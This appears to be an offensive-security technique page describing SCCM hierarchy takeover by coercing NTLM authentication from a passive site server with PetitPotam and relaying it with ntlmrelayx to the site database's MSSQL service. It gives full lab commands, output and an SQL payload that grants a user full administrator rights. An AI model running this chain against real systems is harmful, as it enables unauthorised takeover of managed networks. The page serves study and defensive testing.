 # Hierarchy Takeover via NTLM Coercion and MSSQL Relay From Passive Site Server

## Code Name
TAKEOVER03

## ATT&CK TTPs
- Privilege Escalation

## Required Privilege / Context

Valid domain credentials with network connectivity to the passive primary site server and site database server.

## Summary
For high availability configurations the passive site server role is deployed to SCCM sites where redundancy for the site server role is required. A passive site server shares the same configuration and privileges as the active site server yet performs no writes or changes to the site until promoted manually or during an automated failover. As such, the passive site server machine account is [required](https://learn.microsoft.com/en-us/mem/configmgr/core/servers/deploy/configure/site-server-high-availability#site-database) to be a sysadmin for the site database. In default configurations, the MSSQL service on the site database server is vulnerable to NTLM relay attacks.

## Impact

This technique may allow an attacker to coerce and relay authentication from a passive site server machine account to the MSSQL service of the site database server and execute SQL queries in the privileged context of the relayed account to compromise the hierarchy.

## Defensive IDs


## Examples

- Use SCCMHunter to profile SCCM component server roles
- Use SCCMHunter to generate MSSQL query syntax
- Coerce authentication from passive site server
- Use NTLMrelayx to relay credentials to remote site database

### SCCMHunter

```
[04:24:43 PM] INFO     [+] Finished profiling Site Servers.                                                                                                                                                                                                                                    
[04:24:43 PM] INFO     +----------------------+-------------------+-----------------+--------------+---------------+----------+-----------+---------+                                                                                                                                          
                       | Hostname             | SiteCode          | SigningStatus   | SiteServer   | SMSProvider   | Active   | Passive   | MSSQL   |                                                                                                                                          
                       +======================+===================+=================+==============+===============+==========+===========+=========+                                                                                                                                          
                       | sccm.internal.lab    | LAB               | False           | True         | True          | True     | False     | False   |                                                                                                                                          
                       +----------------------+-------------------+-----------------+--------------+---------------+----------+-----------+---------+                                                                                                                                          
                       | passive.internal.lab | LAB               | False           | True         | True          | False    | True      | False   |                                                                                                                                          
                       +----------------------+-------------------+-----------------+--------------+---------------+----------+-----------+---------+                                                                                                                                          
                       

[04:24:52 PM] INFO     [+] Finished profiling all discovered computers.                                                                                                                                                                           
[04:24:52 PM] INFO     +-------------------------+------------+-----------------+--------------+-------------------+---------------------+---------------+--------+---------+                                                                     
                       | Hostname                | SiteCode   | SigningStatus   | SiteServer   | ManagementPoint   | DistributionPoint   | SMSProvider   | WSUS   | MSSQL   |                                                                     
                       +=========================+============+=================+==============+===================+=====================+===============+========+=========+                                                                                                                                     
                       | sql.internal.lab        | None       | False           | False        | False             | False               | False         | False  | True    |                                                                     
                       +-------------------------+------------+-----------------+--------------+-------------------+---------------------+---------------+--------+---------+                                                                     
                       | sccm.internal.lab       | LAB        | False           | True         | True              | False               | True          | False  | False   |                                                                     
                       +-------------------------+------------+-----------------+--------------+-------------------+---------------------+---------------+--------+---------+  
```

```
┌──(root㉿DEKSTOP-2QO0YEUW)-[/opt/sccmhunter]
└─# python3 sccmhunter.py mssql -u administrator -p P@ssw0rd -d internal.lab -dc-ip 10.10.100.100 -tu specter -sc LAB  
    
[04:20:44 PM] INFO     [*] Resolving specter SID...                                                                                              
[04:20:44 PM] INFO     [*] Converted specter SID to 0x010500000000000515000000010A878E28A377F8F541F39A6D040000                                   
[04:20:44 PM] INFO     [*] Use the following to add specter as a Site Server Admin.                                                              

USE CM_LAB; INSERT INTO RBAC_Admins (AdminSID,LogonName,IsGroup,IsDeleted,CreatedBy,CreatedDate,ModifiedBy,ModifiedDate,SourceSite) VALUES (0x010500000000000515000000010A878E28A377F8F541F39A6D040000,'lab\specter',0,0,'','','','','LAB');INSERT INTO RBAC_ExtendedPermissions (AdminID,RoleID,ScopeID,ScopeTypeID) VALUES ((SELECT AdminID FROM RBAC_Admins WHERE LogonName = 'lab\specter'),'SMS0001R','SMS00ALL','29');INSERT INTO RBAC_ExtendedPermissions (AdminID,RoleID,ScopeID,ScopeTypeID) VALUES ((SELECT AdminID FROM RBAC_Admins WHERE LogonName = 'lab\specter'),'SMS0001R','SMS00001','1'); INSERT INTO RBAC_ExtendedPermissions (AdminID,RoleID,ScopeID,ScopeTypeID) VALUES ((SELECT AdminID FROM RBAC_Admins WHERE LogonName = 'lab\specter'),'SMS0001R','SMS00004','1');
```

### PetitPotam

```
┌──(root㉿DEKSTOP-2QO0YEUW)-[/opt/PetitPotam]
└─# python3 PetitPotam.py -u lowpriv -p P@ssw0rd 10.10.100.136 passive.internal.lab

Trying pipe lsarpc
[-] Connecting to ncacn_np:passive.internal.lab[\PIPE\lsarpc]
[+] Connected!
[+] Binding to c681d488-d850-11d0-8c52-00c04fd90f7e
[+] Successfully bound!
[-] Sending EfsRpcOpenFileRaw!
[-] Got RPC_ACCESS_DENIED!! EfsRpcOpenFileRaw is probably PATCHED!
[+] OK! Using unpatched function!
[-] Sending EfsRpcEncryptFileSrv!
[+] Got expected ERROR_BAD_NETPATH exception!!
[+] Attack worked!
```

### NTLMrelayx

```
┌──(adminservice)─(root㉿DEKSTOP-2QO0YEUW)-[/opt/adminservice/examples]
└─# python3 ntlmrelayx.py -t mssql://sql.internal.lab -smb2support -q "USE CM_LAB; INSERT INTO RBAC_Admins (AdminSID,LogonName,IsGroup,IsDeleted,CreatedBy,CreatedDate,ModifiedBy,ModifiedDate,SourceSite) VALUES (0x010500000000000515000000010A878E28A377F8F541F39A6D040000,'lab\specter',0,0,'','','','','LAB');INSERT INTO RBAC_ExtendedPermissions (AdminID,RoleID,ScopeID,ScopeTypeID) VALUES ((SELECT AdminID FROM RBAC_Admins WHERE LogonName = 'lab\specter'),'SMS0001R','SMS00ALL','29');INSERT INTO RBAC_ExtendedPermissions (AdminID,RoleID,ScopeID,ScopeTypeID) VALUES ((SELECT AdminID FROM RBAC_Admins WHERE LogonName = 'lab\specter'),'SMS0001R','SMS00001','1'); INSERT INTO RBAC_ExtendedPermissions (AdminID,RoleID,ScopeID,ScopeTypeID) VALUES ((SELECT AdminID FROM RBAC_Admins WHERE LogonName = 'lab\specter'),'SMS0001R','SMS00004','1');
"
Impacket v0.10.1.dev1+20230802.213755.1cebdf31 - Copyright 2022 Fortra

[*] Protocol Client SMB loaded..
[*] Protocol Client IMAPS loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client RPC loaded..
[*] Protocol Client DCSYNC loaded..
[*] Protocol Client MSSQL loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client LDAPS loaded..
[*] Protocol Client SMTP loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client HTTPS loaded..
[*] Running in relay mode to single host
[*] Setting up SMB Server
[*] Setting up HTTP Server on port 80
[*] Setting up WCF Server
[*] Setting up RAW Server on port 6666

[*] Servers started, waiting for connections
[*] SMBD-Thread-5 (process_request_thread): Received connection from 10.10.100.141, attacking target mssql://sql.internal.lab
[*] Authenticating against mssql://sql.internal.lab as LAB/PASSIVE$ SUCCEED
[*] Executing SQL: USE CM_LAB; INSERT INTO RBAC_Admins (AdminSID,LogonName,IsGroup,IsDeleted,CreatedBy,CreatedDate,ModifiedBy,ModifiedDate,SourceSite) VALUES (0x010500000000000515000000010A878E28A377F8F541F39A6D040000,'lab\specter',0,0,'','','','','LAB');INSERT INTO RBAC_ExtendedPermissions (AdminID,RoleID,ScopeID,ScopeTypeID) VALUES ((SELECT AdminID FROM RBAC_Admins WHERE LogonName = 'lab\specter'),'SMS0001R','SMS00ALL','29');INSERT INTO RBAC_ExtendedPermissions (AdminID,RoleID,ScopeID,ScopeTypeID) VALUES ((SELECT AdminID FROM RBAC_Admins WHERE LogonName = 'lab\specter'),'SMS0001R','SMS00001','1'); INSERT INTO RBAC_ExtendedPermissions (AdminID,RoleID,ScopeID,ScopeTypeID) VALUES ((SELECT AdminID FROM RBAC_Admins WHERE LogonName = 'lab\specter'),'SMS0001R','SMS00004','1');

[*] ENVCHANGE(DATABASE): Old Value: master, New Value: CM_LAB
[*] INFO(SQL): Line 1: Changed database context to 'CM_LAB'.
[*] SMBD-Thread-7 (process_request_thread): Connection from 10.10.100.141 controlled, but there are no more targets left!
```

## References
- Chris Thompson, SCCM Site Takeover via Automatic Client Push Installation, https://posts.specterops.io/sccm-site-takeover-via-automatic-client-push-installation-f567ec80d5b1
- Microsoft, Site server high availability in Configuration Manager, https://learn.microsoft.com/en-us/mem/configmgr/core/servers/deploy/configure/site-server-high-availability